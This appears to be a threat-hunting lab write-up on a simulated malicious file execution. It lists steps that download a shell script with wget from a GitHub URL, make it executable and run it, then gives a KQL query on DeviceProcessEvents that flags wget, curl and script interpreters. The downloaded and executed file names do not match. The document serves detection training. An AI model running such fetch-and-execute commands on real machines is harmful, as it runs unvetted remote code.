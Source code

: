 
# Threat Event (Malicious File Execution)

## Steps the "Bad Actor" took to Create Logs and IoCs:

1. Downloaded a malicious file to the machine. `wget https://raw.githubusercontent.com/Goodka7/Threat-Hunting-Malicious-Execution-/refs/heads/main/resources/MaliciousFile.sh`
2. Make the file executable. `chmod +x malicious_script.sh`
3. Execute the malicious file, simulating a compromise. `./malicious_script.sh`

## Tables Used to Detect IoCs:

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceProcessEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose** | Used to detect the download, execution or modification of malicious files. |

## Related Queries:

```kql

DeviceProcessEvents
| where InitiatingProcessFileName in ("wget", "curl", "bash", "python", "perl")
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessAccountDomain, InitiatingProcessFileName, ProcessCommandLine
| order by Timestamp desc
```

---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47
- **Date**: Febuary 5, 2025

## Validated By:
- **Reviewer Name**:
- **Reviewer Contact**:
- **Validation Date**:

---

## Additional Notes:
**None**
